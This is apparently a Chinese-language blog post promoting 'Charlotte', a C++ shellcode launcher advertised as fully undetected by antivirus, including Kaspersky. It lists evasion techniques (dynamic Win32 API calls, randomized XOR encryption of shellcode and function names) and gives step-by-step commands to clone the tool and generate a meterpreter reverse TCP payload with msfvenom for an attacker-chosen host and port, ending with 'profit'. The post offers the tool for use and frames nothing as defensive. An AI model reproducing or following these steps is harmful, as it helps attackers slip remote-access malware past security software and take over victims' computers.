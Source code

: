 ## 卡巴斯基引擎另类免杀玩法

Charlotte是一款基于C++实现的Shellcode启动器，并且完全不会被安全解决方案所检测到。

#### 项目地址:

https://github.com/9emin1/charlotte

#### Charlotte特色

1. c++ shellcode 启动器，截至 2021 年 5 月 13 日完全未被检测到 0/26。
2. win32 api函数的动态调用
3. shellcode和函数名的异或加密
4. 每次运行随机 XOR 键和变量
5. 在 Kali Linux 上，只需“apt-get install mingw-w64*”即可！
6. 随机字符串长度和 XOR 密钥长度

## 杀毒软件检测截图

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/2446/1655171735008/d8c50937628944de909610483807b209.png)

用法

git clone 存储库，生成命名为 beacon.bin 的 shellcode 文件，然后运行 charlotte.py

git clone https://github.com/9emin1/charlotte.git && apt-get install mingw-w64*

cd charlotte

msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=$YOUR_IP LPORT=$YOUR_PORT -f raw > beacon.bin

python charlotte.py

profit

使用 msfvenom -p（显示在下面的 gif POC 中）以及cobalt strike攻击原始格式有效负载进行测试

## 使用方法

### 启动命令

python charlotte.py

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/2446/1655171735008/69eb3b004e36442280e4314c418140e4.png)
